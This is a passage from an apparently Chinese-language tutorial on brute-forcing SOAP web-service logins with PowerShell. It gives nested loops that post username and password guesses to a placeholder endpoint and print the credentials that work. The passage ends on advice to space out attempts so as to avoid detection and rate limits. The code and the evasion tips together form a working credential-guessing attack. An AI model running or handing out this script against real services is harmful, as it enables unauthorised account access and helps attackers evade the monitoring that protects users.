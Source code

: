 SOAP 服务通常使用基于 XML 的认证。你可能需要构造带有适当凭证的 SOAP 信封：

```
 foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        # Construct the SOAP envelope with credentials
        $soapEnvelope = @"<soapenv:Envelope  >
<soapenv:Header/>
<soapenv:Body>
<web:Authenticate>
           <web:Username>$username</web:Username>
                <web:Password>$password</web:Password>
          </web:Authenticate>
</soapenv:Body>
</soapenv:Envelope>"@
        # Perform the SOAP request
        $response = Invoke-WebRequest -Uri "https://api.example.com/webservice" -Method Post -Body $soapEnvelope -ContentType "text/xml"
        # Check for a successful login
        if ($response.StatusCode -eq 200) {
            Write-Host "Login successful: $username:$password"
            # Perform additional actions based on a successful login
        } else {
            Write-Host "Login failed: $username:$password"
        }
    }
}
```

## 处理 Web 服务响应

解读 Web 服务的响应，以判断每次暴力破解尝试的成功与否。Web 服务通常返回状态码或特定的响应字段来指示结果：

```
 foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        # ... (previous code)
        # Check for successful login
        if ($response.Status -eq "success") {
            Write-Host "Login successful: $username:$password"
            # Perform additional actions
        } else {
            Write-Host "Login failed: $username:$password"
        }
    }
}
```

## 限速和隐匿性

为了避免被检测到并遵守 Web 服务所实施的任何限速政策，请在登录尝试之间引入延迟。

例如，在登录尝试之间引入延迟：
